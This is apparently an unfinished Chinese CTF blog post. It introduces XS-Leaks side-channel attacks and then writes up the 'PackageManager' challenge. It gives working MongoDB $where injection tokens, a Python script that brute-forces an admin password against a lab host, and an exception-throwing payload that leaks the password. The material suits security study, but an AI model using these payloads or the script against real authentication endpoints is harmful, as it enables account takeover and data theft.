```yaml
---
title: XSLeaks 侧信道攻击 (unfinished)
date: 2022-03-14 22:46:00
updated: 2022-03-14 22:46:00
tags: [ctf,security]
category: Security
---
```


# XSLeaks 侧信道攻击

## 前置芝士🧀

>
>
>参考：
>
>https://book.hacktricks.xyz/pentesting-web/xs-search
>
>https://xsleaks.dev/
>
>https://www.scuctf.com/ctfwiki/web/9.xss/xsleaks/
>
>https://www.cnblogs.com/starrys/p/15171221.html
>
>https://blog.csdn.net/rfrder/article/details/119914746

在补了近期几场CTF的题后发现2022的SUSCTF和TQLCTF都出了XSLeaks侧信道攻击的题目，虽然没有环境供我去复现题目，但是对于XSLeaks这个知识点还是可以好好研究一下

### 什么是 XS-Leaks

XS-Leaks 全称 Cross-site leaks，可以用来 **探测用户敏感信息**。

利用方式、利用条件等都和 csrf 较为相似。

说到探测用户敏感信息，是如何进行探测的？和csrf 相似在哪？

设想网站存在一个模糊查找功能（若前缀匹配则返回对应结果）例如 `http://localhost/search?query=`，页面是存在 xss 漏洞，并且有一个类似 flag 的字符串，并且只有不同用户查询的结果集不同。这时你可能会尝试 csrf，但是由于网站正确配置了 CORS，导致无法通过 xss 结合 csrf 获取到具体的响应。这个时候就可以尝试 XS-Leaks。

虽然无法获取响应的内容，但是是否查找成功可以通过一些侧信道来判断。通过哪些侧信道判断呢？

这些侧信道的来源通常有以下几类：

1. 浏览器的 api (e.g. [Frame Counting](https://xsleaks.dev/docs/attacks/frame-counting/) and [Timing Attacks](https://xsleaks.dev/docs/attacks/timing-attacks/))
2. 浏览器的实现细节和bugs (e.g. [Connection Pooling](https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/) and [typeMustMatch](https://xsleaks.dev/docs/attacks/historical/content-type/#typemustmatch))
3. 硬件bugs (e.g. Speculative Execution Attacks [4](https://xsleaks.dev/#fn:4))

通过测信道攻击可以获取到用户隐私信息。

### 使用条件

具有模糊查找功能，可以构成二元结果（成功或失败），并且二元之间的差异性可以通过某种侧信道技术探测到。

可以和 csrf POST 型一样触发，需要诱使受害者触发执行 js 代码。所以特定功能数据包必须没有类似 csrf token 的保护等。

## 祥云杯 2021 PackageManager

### 布尔盲注

这题在BUUOJ上有复现环境

注册登录后发现是个包管理的页面，可以创建自己的包，那么根据源码初始化数据库这一部分，比较显然我们需要登录admin的账号然后admin会有个包里面有flag。

![image-20220323161015566](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323161015566.png)

![image-20220323160826952](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160826952.png)

那我们的目标就是找到admin用户的密码

漏洞产生的点是/auth接口，auth接口是用于验证submit package的用户是不是admin用户，然后是需要提交一个admin的token，这个token就是admin用户的密码的md5，我们可以在这里构造一下payload然后爆出password，从而实现admin用户登录。

正则检测的waf没有加`^$`,意味着后面可以加or条件，这个很关键

```tsx
router.post('/auth', async (req, res) => {
	let { token } = req.body;
	if (token !== '' && typeof (token) === 'string') {
		if (checkmd5Regex(token)) {
			try {
				let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()
				console.log(docs);
				if (docs.length == 1) {
					if (!(docs[0].isAdmin === true)) {
						return res.render('auth', { error: 'Failed to auth' })
					}
				} else {
					return res.render('auth', { error: 'No matching results' })
				}
			} catch (err) {
				return res.render('auth', { error: err })
			}
		} else {
			return res.render('auth', { error: 'Token must be valid md5 string' })
		}
	} else {
		return res.render('auth', { error: 'Parameters error' })
	}
	req.session.AccessGranted = true
	res.redirect('/packages/submit')
});
```

我们构造token:`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[0]=="a`使得括号内的值为

`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" || this.password[0]=="a"`

此时只要或条件成立语句就为真，写个脚本就可以爆出密码啦

```python
import requests
import string

url="http://d8ec246d-507e-4aaa-a226-d318473d31ec.node4.buuoj.cn:81/auth"
headers={
    "Cookie": "session=s%3Ay8Ne8sPLeY55QXmWPyh3WmPiuoDgOp6y.U3VuzJCBxWcb5AWW8CCkPJqnSmYJ1N9EnHvoR%2BBuGho",
}

flag = ''
for i in range(10000):
    for j in string.printable:
        if j == '"':
            continue
        payload='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||this.password[{}]=="{}'.format(i,j)
        data={
            "_csrf": "YzvJKLZc-4Sp0gfSn-hIRIF4bUZu0nhXy0HU",
            "token": payload
        }
        r=requests.post(url=url,data=data,headers=headers,allow_redirects=False)
        # print(r.text)
        if "Found. Redirecting to" in r.text:
            print(payload)
            flag+=j
            print(flag)
            break
```



![image-20220323155929287](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323155929287.png)

![image-20220323160751490](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323160751490.png)

### mongodb异常注入

同样的是对auth接口这里逻辑判断，利用了js的抛出异常和IIFE（立即调用函数表达式）来实现

`token=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin`

逻辑判断语句为：`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()!="aaaaa"`

这里就是立即执行throw Error(this.password)，后面是!=还是== 字符串的值是什么都无所谓，只要是语法没问题然后语句正常执行，这里强制抛出异常，从源码中可以看到抛出的异常会被渲染出来，然后就能够看到password的值

```js
let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"||(()=>{throw Error(this.password)})()=="admin""`).exec()
console.log(docs);
```

![image-20220323165452041](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220323165452041.png)





## SUSCTF 2022 ez_note



## TQLCTF 2022 A More Secure Pastebin

